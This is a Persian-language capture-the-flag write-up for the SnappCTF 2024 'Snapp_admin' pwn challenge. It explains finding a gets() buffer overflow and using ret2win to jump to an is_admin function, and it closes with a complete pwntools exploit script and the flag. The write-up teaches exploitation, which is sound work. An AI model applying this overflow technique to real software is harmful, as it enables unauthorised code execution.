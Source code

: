 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - PWN
  - Exploit
  - GDB
  - Pwntools
  - BufferOverflow
---
```

# Snapp_admin

<center>
![Snapp_admin1.png](Snapp_admin1.png)
</center>

سلام گایززز چطور مطوریایین؟
خب بریم با ی چلنج دیگه از SnappCTF ببینیم چیخبراست؟! :)
در ابتدای کار با استفاده از ابزار checksec متوجه میشیم که فایل باینری دارای Stack Canary و PIE نیست.

<center>
![Snapp_admin2.png](Snapp_admin2.png)
</center>

بعد از این کار سعی میکنیم تا با ghidra یک بررسی روی توابع برنامه انجام بدیم و با چنین صحنه ای مواجه میشیم(قسمت هایلایت شده) :

<center>
![Snapp_admin3.png](Snapp_admin3.png)
</center>

وجود تابع gets در برنامه ما رو به این سمت هدایت میکنه که برنامه آسیب پذیری BufferOverflow رو داره. از طرفی وجود تابع is_admin تاییدی هست برای این موضوع که باید از تکنیک [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) استفاده کنیم. 

<center>
![Snapp_admin4.png](Snapp_admin4.png)
</center>

به طور خلاصه کاری که در این تکنیک انجام میشه این هست که return pointer یا EIP(rip) رو overwrite میکنیم به سمت یک آدرس دلخواه تا پس از اتمام یک تابع به جای برگشت برنامه به مسیر و روند اصلی خود، به سمت دلخواه ما تغییر مسیر دهد و تابع مورد نظر ما اجرا شود.
برای اینکه این کارو انجام بدیم نیاز هست که بدونیم offset ما کجاست و درواقع در کجای استک هست که rip از اونجا شروع میشه و با بازنویسی (Overwrite) کردن اون میتونیم به هدفمون برسیم.
قبل از اینکه به تابع gets برسیم خیلی واضح هست که باید اولین ورودی که به برنامه میدیم باید عدد 9606 باشه تا بتونیم وارد دستورات بلوک if بشیم و تابع gets از ما ورودی بعدی رو بگیره.
خیلی راحت سعی میکنم تا برنامه رو توی gdb بازش کنیم و با استفاده از دستورات  مثل pattern create و pattern search به پیدا کردن offset ها میپردازیم. لینک زیر بهتر میتونه شما رو در این باره راهنمایی کنه : 

[Pattern](https://hugsy.github.io/gef/commands/pattern/)

بعد از پیدا کردن offset سعی میکنیم تا تابعی که قصد داریم تا در نهایت به سمت اون ret کنیم رو در payload خودمون بذاریم و اون رو به برنامه بدیم.
برای پیدا کردن آدرس تابع is_admin میتونیم از دستور زیر استفاده کنیم: 

`readelf -s snapp_admin | grep -i is_admin`

یا توی gdb از دستور info functions استفاده کنیم.
با پیدا کردن offset و آدرس تابع is_admin و به کار گرفتن pwntools حالا خیلی راحت میتونیم به is_admin برسیم.
تنها قدمی که میمونه اینه که ما بعد از ورود به تابع is_admin باید دو مقدار دیگه رو به عنوان ورودی به برنامه بدیم تا فلگ برامون نمایش داده بشه. اولین مقداری که بعد از ورود به این تابع به برنامه میدیم باید 9600 باشه. چرا که تابع read تنها در صورتی که اولین آرگومانش صفر باشه میاد ازما ورودی بعدی رو میگیره و ما به گرفتن ورودی بعدی نیاز داریم چرا که باید دستورات درون بلوک if اجرا شوند که شامل دستور نمایش فلگ هم هست. در آخرین قسمت ماجرا هم برنامه از ما ورودی چهارم رو که SNAPP هست رو میگیره و تمام!

<center>
![Snapp_admin5.png](Snapp_admin5.png)
</center>


و در آخر exploit نهایی این چالش :
```python
from pwn import *

context.log_level = "critical"
# ncat --proxy-type socks5 --proxy 127.0.0.1:2080 91.107.177.236 1337
# context.proxy = (socks.SOCKS4, "127.0.0.1", 2080)

def run(i):
    p = remote('91.107.177.236', 1337)
    p.sendline(b'9606')
    p.sendline(b'a'*i + p64(0x40101a) + p64(0x00401296))
    p.sendline(b'9600')
    p.sendline(b'SNAPP')
    if 'SNAPP{' in (res:=p.clean(2).decode()):
        print(f"[!] offset={i}\n{res}")

for i in range(8, 16):
    run(i*4)
```





??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Wh3Re_is_@dm1n_I_f0rgoT_my_cOd3}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۶
	